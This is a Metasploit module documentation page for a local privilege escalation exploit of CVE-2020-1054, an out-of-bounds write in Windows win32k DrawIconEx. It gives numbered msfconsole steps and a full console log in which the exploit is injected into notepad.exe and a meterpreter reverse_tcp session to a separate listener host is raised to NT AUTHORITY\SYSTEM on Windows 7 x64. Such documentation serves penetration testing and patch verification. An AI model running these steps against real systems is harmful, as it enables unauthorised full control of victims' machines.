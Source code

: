 ## Vulnerable Application

This module exploits CVE-2020-1054, an out of bounds write reachable from DrawIconEx
within win32k. The out of bounds write can be used to overwrite the pvbits of a
SURFOBJ. By utilizing this vulnerability to execute controlled writes to kernel
memory, an attacker can gain arbitrary code execution as the SYSTEM user.

This module has been tested against a fully updated Windows 7 x64 SP1. Offsets
within the exploit code may need to be adjusted to work with other versions of
Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2020_1054_drawiconex_lpe`
1. `set session <session>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.24542

```
$ msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.13.37; set lport 4444; set ExitOnSession false; run -j"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
lhost => 192.168.13.37
lport => 4444
ExitOnSession => false
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.13.37:4444
msf6 exploit(multi/handler) > [*] Sending stage (200262 bytes) to 192.168.13.106
[*] Meterpreter session 1 opened (192.168.13.37:4444 -> 192.168.13.106:49216) at 2020-11-26 13:56:39 +0000

msf6 exploit(multi/handler) > use exploit/windows/local/cve_2020_1054_drawiconex_lpe
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set LHOST 192.168.13.37
LHOST => 192.168.13.37
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > set SESSION -1
SESSION => -1
msf6 exploit(windows/local/cve_2020_1054_drawiconex_lpe) > run

[*] Started reverse TCP handler on 192.168.13.37:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 1028 launched.
[*] Injecting exploit into 1028 ...
[*] Exploit injected. Injecting payload into 1028...
[*] Payload injected. Executing exploit...
[*] Sending stage (200262 bytes) to 192.168.13.106
[*] Meterpreter session 2 opened (192.168.13.37:5555 -> 192.168.13.106:49217) at 2020-11-26 13:57:08 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

